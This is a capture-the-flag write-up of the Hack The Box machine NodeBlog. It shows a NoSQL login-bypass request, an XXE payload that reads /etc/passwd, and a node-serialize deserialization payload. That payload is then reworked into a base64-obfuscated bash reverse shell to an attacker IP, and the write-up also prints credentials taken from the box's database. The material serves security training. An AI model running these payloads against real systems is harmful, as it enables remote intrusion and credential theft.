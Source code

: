 ```yaml
---
description: H
---
```


# NodeBlog

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-08 07:30 EST
Nmap scan report for 10.129.96.160
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

### NoSQL Login Bypass

This was a UHC qualifier box in 2021.

<figure><img src="../../../.gitbook/assets/image (1705).png" alt=""><figcaption></figcaption></figure>

There was a login functionality there. I tested some SQL Injection but to no avail. Because this was a UHC box, this was probably the way in. I tested some NoSQL injection and it worked in bypassing it!

```http
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://10.129.96.160:5000
Connection: close
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password": {"$ne": "admin"}

}
```

<figure><img src="../../../.gitbook/assets/image (3343).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

All of the functions do nothing much, except for the Upload one. When trying to upload something, I get this error:

```
Invalid XML Example: Example DescriptionExample Markdown
```

This indidates that we have to upload a malicious XML file to achieve XXE injection for our reverse shell. Taking a look at the POST request in Burpsuite reveals that we need this format:

<figure><img src="../../../.gitbook/assets/image (2936).png" alt=""><figcaption></figcaption></figure>

I headed to PayloadAllTheThings to try some XXE injection payloads, and it worked rather well:

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>mypost</title>
        <description>testfile</description>
        <markdown>&file;</markdown>
</post>
```

Then we can save this into a file and upload it. The output would be printed in the `markdown` area:

<figure><img src="../../../.gitbook/assets/image (2557).png" alt=""><figcaption></figcaption></figure>

Earlier while testing my NoSQL injections, I did run across an error like this:

<figure><img src="../../../.gitbook/assets/image (1191).png" alt=""><figcaption></figcaption></figure>

So the source code files are in `/opt/blog`. A bit more testing revealed the main file to be `server.js`.

```javascript
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

First thing I notice is that **there is unserialisation going on**. This web application must be vulnerable to RCE through Deserialisation. This article showed up when I searched for this exploit:

{% embed url="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" %}

I tested the token given there and it worked: (after URL encoding)

```
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27ping%20-c%201%2010.10.14.39%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

Now, we can replace the `ping` command I used above with a reverse shell:

```bash
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20%5C%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zOS84ODg4IDA%2BJjEK%5C%22%20%7C%20base64%20-d%20%7C%20bash%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

This uses base64 to encode the shell one-liner and connect to port 8888.

<figure><img src="../../../.gitbook/assets/image (2932).png" alt=""><figcaption></figcaption></figure>

When trying to read the user flag, I found out that we did not have access to our own home directory. This was because of the permissions set:

```
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

We can correct this with `chmod 777 admin`.

## Privilege Escalation

I ran a LinPEAS scan on this machine and found the `mongoDB` credentials file.

```
mongodb      802  0.3  1.8 981772 76124 ?        Ssl  16:38   0:08 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
```

Earlier we used NoSQL injection to access this, and perhaps we can find the actual credentials for the `admin` user (so that I can check `sudo` privleges). Some DBs and collections can be found here.

<figure><img src="../../../.gitbook/assets/image (945).png" alt=""><figcaption></figcaption></figure>

I could find a password from the users collections.

{% code overflow="wrap" %}
```
>  db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
{% endcode %}

We can use this to check `sudo` privileges and find an easy root path:

<figure><img src="../../../.gitbook/assets/image (2687).png" alt=""><figcaption></figcaption></figure>
